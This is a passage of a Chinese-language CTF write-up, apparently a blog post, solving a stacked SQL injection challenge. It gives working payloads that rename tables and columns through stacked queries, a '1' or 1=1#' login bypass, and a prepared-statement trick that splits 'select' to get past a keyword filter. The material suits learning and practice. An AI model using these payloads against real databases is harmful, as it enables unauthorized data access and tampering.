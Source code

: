 所以我们进行改名

```cobol
使用rename 将words改为其他的 然后把1919810931114514改为words 
然后在1919810931114514的表中加上 id这个列 把flag改为data
```

```cobol
0';alter table words rename  to words1;alter table `1919810931114514` rename
to words;alter table words change flag id varchar(50);#

0';
alter table words rename to words1;   把words改为words1
alter table `1919810931114514` rename to words; 把1919810931114514改为words
alter tables words change flag id varchar（50）;#
把flag改为id 然后改变为char类型 输出
```

然后使用万能密码输出

```csharp
1' or 1=1#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/1a7eb7801e0817f5f2ea4bf6688dc741.png" alt="" style="max-height:359px; box-sizing:content-box;" />


学会了过滤select后怎么办 还有改文件名的操作

#### 2.预编译

题目过滤了select 我们使用预编译

我们想要执行

```cobol
select * from `1919810931114514`;
```

预编译语法

```sql
set用于设置变量名和值
prepare用于预备一个语句，并赋予名称，以后可以引用该语句
execute执行语句
deallocate prepare用来释放掉预处理的语句
```

```cobol
-1;set @sql = concat('sel','ect * from`1919810931114514`;');prepare a from @sql;EXECUTE a;#
 
 
-1';
set @sql=concat('sel','ect * from `1919810931114514`;');
set设置@sql变量 和变量的值
prepare a from @sql;
将@sql 赋值给 a
execute a；#
执行a 

```
